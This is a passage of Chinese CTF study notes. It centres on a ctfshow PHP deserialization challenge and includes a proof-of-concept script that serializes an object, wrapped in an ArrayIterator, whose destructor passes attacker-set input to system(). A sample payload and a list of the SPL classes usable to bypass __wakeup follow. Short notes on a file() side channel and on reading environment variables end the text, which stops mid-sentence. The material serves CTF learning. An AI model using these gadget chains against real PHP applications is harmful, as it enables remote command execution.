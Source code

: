 ```py
# @Last Modified time: 2023-03-25 00:25:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

//error_reporting(0);

class ctfshow {
    public $ctfshow;

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        echo "OK";
        system($this->ctfshow);
    }
     

}
$a=new ctfshow;
$a->ctfshow="ls";
$arr=array("evil"=>$a);
$oa=new ArrayIterator($arr);
$res=serialize($oa);
echo $res;
#$res='C:11:"ArrayObject":67:{x:i:0;a:1:{s:4:"evil";O:8:"Saferman":1:{s:5:"check";b:1;}};m:a:0:{}}';
#unserialize($res);

?>

```

经过所有测试发现可以用的类为：
● ArrayObject::unserialize
● ArrayIterator::unserialize
● RecursiveArrayIterator::unserialize
● SplObjectStorage::unserialize

但是7.4.33(指名蓝帽杯)测试失败

## 初识侧信道

祖传脚本记好了

`file($_GET[1])`直接爆数据

## 环境变量

env**命令**可以显示当前用户的环境变量，还可以用来在指定[环境变量](http://fangfang0717.blog.51cto.com/236466/48703/)下执行其他命令

env查看有哪些环境变量，并且可以用$ 变量读取env中的变量名对应的变量值

**set**
**env**
**export**
**declare**命令的异同

set命令显示当前[shell](http://jidiblog.blog.51cto.com/140821/282481)的变量，包括当前用户的变量

env命令显示当前用户的变量;

export命令显示当前